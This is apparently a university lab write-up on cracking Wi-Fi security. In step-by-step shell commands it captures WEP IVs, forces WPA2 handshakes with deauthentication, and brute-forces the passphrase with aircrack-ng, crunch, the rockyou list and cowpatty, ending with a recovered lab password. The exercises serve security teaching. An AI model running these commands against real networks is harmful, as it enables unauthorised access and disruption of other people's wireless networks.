








# ES1 WEP

```bash
# Install software
sudo apt install aircrack-ng

# get interface name
# for me is wlp3s0
# when see wlp3s0, change this with your interface name
ip addr

# kill process that can be cause interferences with monitor mode 
sudo airmon-ng check kill
# start monitor mode
sudo airmon-ng start wlp3s0

# start sniffing
# you need to provide the interface namen in monitor mode that is
# your_interface_name + "mon"
sudo airodump-ng wlp3s0mon
# if you want to monitor a single channel 
# use '-c' with the number of channel
# try with -c 6 for this exercise
sudo airodump-ng wlp3s0mon -c 6

```

Our target is "RSI-Wep"



with BSSID = `00:1E:E5:28:65:49`. With this information we can start another time `airodump` in order to capture data. 

```bash
$ sudo airodump-ng -c 6 --bssid 00:1E:E5:28:65:49 -w wep.cap wlp3s0mon
```

and the situation is like this.



We need to generate some traffic in order to capture the right amount of IV (Initialization Vector) and retrive the password. To do that we use `aireplay-ng` that allowq us to send ARP requests from hosts to the access point. 

```bash
# -3 -> mode that send arp traffic at the hosts connected to acces point
$ sudo aireplay-ng -3 wlp3s0mon -b 00:1E:E5:28:65:49

```





```bash
# In another terminal, when you capture #Data > 500, you can start to try decrypt password
$ sudo aircrack-ng ./wep.cap

```

After few minuts o just a few seconds (if you have an host that generate an huge data traffic, like a video stream).
You decrypt the password!


end then you can stop `airdump` and escape from monitor mode

```bash
sudo airmon-ng stop wlp3s0mon
```

To go deep: https://www.aircrack-ng.org/doku.php?id=simple_wep_crack


# ES2 WPA2

Our target now is `RSI-Sicurissima`. 

## Capture handshake
```bash
$ iw dev
$ sudo airmon-ng start wlp3s0
$ sudo airodump-ng wlp3s0mon
```


```bash
# Start capture
$ sudo airodump-ng -c 6 --bssid  00:1E:E5:28:65:4B  -w wpa.cap wlp3s0mon
# In other terminal trigger the arp traffic like before in es1
$ sudo aireplay-ng -0 2 -a  00:1E:E5:28:65:4B  wlp3s0mon
```



```bash
$ sudo airmon-ng stop wlp3s0mon
```

## Get dictionary
Once the WPA2 handshake has been captured, we can start cracking the password

One of the things that we will try out with breaking through WPA and WPA2, is by using a dictionary attack. Dictionary attack is a technique to break through an authentication mechanism by trying to figure out it’s decryption key or passphrase by trying out hundreds, thousands or even billions of likely possibilities. Most vulnerable victims of this attacks are Wi-Fi’s that have their password set to something simple, such as `cat`, `dog`, `airplane`, `football` and so on - like the words in a dictionary. 
We can generate custom dict or we can use wellknow dictionary. 

```bash 
# Generate custom dictionary
# crunch <min_lenght> <max_lenght> charset [-t <pattern> ] -o dictionary.txt
$ sudo crunch 5 8 qwertyuiopasdfghjklzxcvbnm -o dictionary.txt
Crunch will now generate the following amount of data: 1945931761280 bytes
1855785 MB
1812 GB
1 TB
0 PB
Crunch will now generate the following number of lines: 217179671904 
crunch:   0% completed generating output
...

# Get common and widely use dictionary
$ sudo apt install john
$ mkdir /usr/share/rockyou
$ cd /usr/share/rockyou
$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

After that, the dictionaries can be found in the `/usr/share/john` and `/usr/share/rockyou` folders, respectively.

## Start bruteforce attack

We can now start the bruteforce attack. We suggest to use `john` and/or `rockyou` dictionary to complete the exercise before the end of the laboratory session

```bash

# /usr/share/john/password.lst
# /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-10.txt
# ./toy_dict.txt
$ sudo aircrack-ng -w ./toy_dict.txt wpa.cap
```

or with our custom dict 




## Start a Rainbow Table attack
Rainbow Tables are pre-computed tables of hash values that are pre-matched to possible plain text passwords. Rainbow tables are mainly used to crack hashes very quickly.

```bash
$ sudo apt install cowpatty

# with common dictionary
$ genpmk -f /usr/share/john/password.lst -s RSI-Sicurissima -d rainbow.txt
$ sudo cowpatty -d rainbow.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...
Unable to identify the PSK from the dictionary file. Try expanding your
passphrase list, and double-check the SSID.  Sorry it didn't work out.

# with custom dict
$ echo "nonmicraccheraimai" > dict.txt
$ sudo genpmk -f dict.txt -s RSI-Sicurissima -d rainbow.2.txt

$ sudo cowpatty -d rainbow.2.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...

The PSK is "nonmicraccheraimai".


```





